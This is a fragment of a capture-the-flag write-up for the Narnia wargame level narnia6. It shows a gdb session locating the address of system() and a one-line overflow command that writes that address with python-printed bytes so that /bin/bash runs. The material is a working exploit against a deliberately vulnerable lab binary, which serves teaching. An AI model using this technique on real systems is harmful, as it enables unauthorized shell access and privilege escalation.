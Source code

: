 ```
Starting program: /games/narnia/narnia6 hello slothkrew

Breakpoint 3, 0x0804855d in main ()
(gdb) break system
Breakpoint 4 at 0xf7e61cd0 <---
```

./narnia6 AAAAAAAA$(python -c'print "\xd0\x1c\xe6\xf7"') AAAAAAAA/bin/bash
